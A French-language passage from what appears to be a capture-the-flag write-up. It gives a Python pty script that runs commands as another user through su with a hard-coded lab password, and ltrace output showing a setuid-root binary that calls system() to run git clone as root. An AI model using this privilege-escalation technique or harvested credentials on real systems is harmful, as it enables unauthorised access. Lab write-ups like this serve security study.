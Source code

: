 Et j'ai aussi écrit un script Python qui lance des commandes en tant que apophis via su dans un pseudo-terminal :  

```python
import pty
import os
import sys

cmd = " ".join(sys.argv[1:])
child_pid, child_fd = pty.fork()

if not child_pid: # child process
    os.execv("/bin/su", ["su", "-c", cmd + ";echo END", "apophis"])
else:
    buff = os.read(child_fd, 1000)
    os.write(child_fd, "overdrive\n")
    s = ""
    while not s.endswith("END"):
        s += os.read(child_fd, 1)
    print s
```

Et le miracle s'accomplit :  

```plain
$ python /tmp/do_su.py ls -alR /home/apophis

/home/apophis:
total 32
drwx------  2 apophis apophis 4096 Jan  2 20:12 .
drwxr-xr-x. 4 root    root    4096 Dec 30 19:20 ..
-rw-------  1 apophis apophis    0 Jan 15 21:15 .bash_history
-rw-r--r--  1 apophis apophis   18 Feb 21  2013 .bash_logout
-rw-r--r--  1 apophis apophis  176 Feb 21  2013 .bash_profile
-rw-r--r--  1 apophis apophis  124 Feb 21  2013 .bashrc
-rwsr-sr-x  1 root    root    8430 Jan  2 17:49 build
END
```

Next-step : le binaire build qui est setuid root :)  

Après avoir modifié les droits d'accès sur le home d'apophis (de ?) j'ai récupéré le binaire *build* via la même technique que pour le dump mémoire.  

Le binaire correspond au fait au code C vu sur la première solution. Ce dernier utilise la fonction *gets()* bien connue pour être dangereuse mais la randomisation de la pile, le fait que l'on est sur un système 64bits et la présence de canaries sur la pile rendent l'exploitation impraticable... Il faut voir ailleurs.  

```plain
$ ltrace -s 256 ./build 
__libc_start_main([ "./build" ] <unfinished ...>
__printf_chk(1, 0x7fe39e1ebb6c, 0x7fff43049ef8, 0) = 13
__gets_chk(0x7fff43049de0, 2, 13, 0xfbad2a84Build? (Y/N) Y
) = 0x7fff43049de0
strcmp("Y", "Y") = 0
setreuid(0, 0) = -1
system("/usr/bin/git clone ssh://root@sokar-dev:/root/secret-project /mnt/secret-project/"fatal: impossible de créer le répertoire de la copie de travail '/mnt/secret-project'.: Permission non accordée
 <no return ...>
--- SIGCHLD (Le processus fils a terminé) ---
<... system resumed> ) = 32768
__cxa_finalize(0x7fe39e3ebc78, 0, 3, 1) = 0x7fe39dfc4070
+++ exited (status 0) +++
```
